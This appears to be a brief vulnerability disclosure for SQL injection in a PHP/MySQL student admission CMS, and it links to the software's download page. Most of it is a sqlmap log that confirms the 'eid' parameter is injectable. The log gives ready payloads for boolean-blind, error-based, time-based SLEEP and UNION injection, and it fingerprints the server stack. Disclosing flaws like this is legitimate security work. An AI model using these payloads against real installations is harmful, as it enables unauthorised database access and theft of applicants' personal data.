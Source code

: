 # Student-Admission CMS Sqlinjection

## Sqlinjection location 

![image](https://user-images.githubusercontent.com/72059221/182759099-aa9b5cf7-88eb-46ee-9978-7c9af8aff168.png)


#### Sqlmap Attack

![image](https://user-images.githubusercontent.com/72059221/182759209-d192c812-572e-42ca-b63c-4b707d1d8101.png)


```
[11:29:01] [INFO] GET parameter 'eid' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'eid' is vulnerable. Do you want to keep testing the others (if any)? [y/N]

sqlmap identified the following injection point(s) with a total of 142 HTTP(s) requests:
---
Parameter: eid (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: a=edit&eid=(SELECT (CASE WHEN (5950=5950) THEN 8 ELSE (SELECT 9749 UNION SELECT 6556) END))

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: a=edit&eid=8 OR (SELECT 5422 FROM(SELECT COUNT(*),CONCAT(0x717a766a71,(SELECT (ELT(5422=5422,1))),0x7170707871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: a=edit&eid=8 AND (SELECT 8871 FROM (SELECT(SLEEP(5)))pMGL)

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: a=edit&eid=-4536 UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x717a766a71,0x4764484f4a426d4d6147624c54525076594d64476745676f7750505173707247795a6c584d434842,0x7170707871),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[11:29:02] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.6.9, Apache 2.4.39
back-end DBMS: MySQL >= 5.0
```

## Code Download

https://www.sourcecodester.com/php/15514/online-admission-system-php-and-mysql.html
